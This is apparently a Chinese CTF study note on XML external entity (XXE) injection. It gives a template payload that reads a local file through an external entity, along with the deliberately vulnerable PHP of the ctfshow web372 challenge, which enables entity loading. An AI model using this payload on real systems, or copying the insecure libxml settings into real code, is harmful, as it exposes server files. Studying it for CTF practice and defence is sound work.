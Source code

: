 # XML 注入
## 模板

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ELEMENT root (ctfshow)>
    <!ELEMENT ctfshow ANY>
    <!ENTITY payload SYSTEM "file:///flag">
]>
<root>
    <ctfshow>&payload;</ctfshow>
</root>
```
DTD 可以定义 XML 文件的标签格式，也可以定义一个实体来访问文件。


```
&payload;
```

## 例题 ctfshow web372
```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 13:36:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
highlight_file(__FILE__);
```

启用可以使用外部实体。
```php
libxml_disable_entity_loader(false);
```



注意，在这道题中根节点是必要的。根据本地调试，可发现 `$creds` 为：
```
SimpleXMLElement Object
(
    [ctfshow] => SimpleXMLElement Object
        (
        )
)
```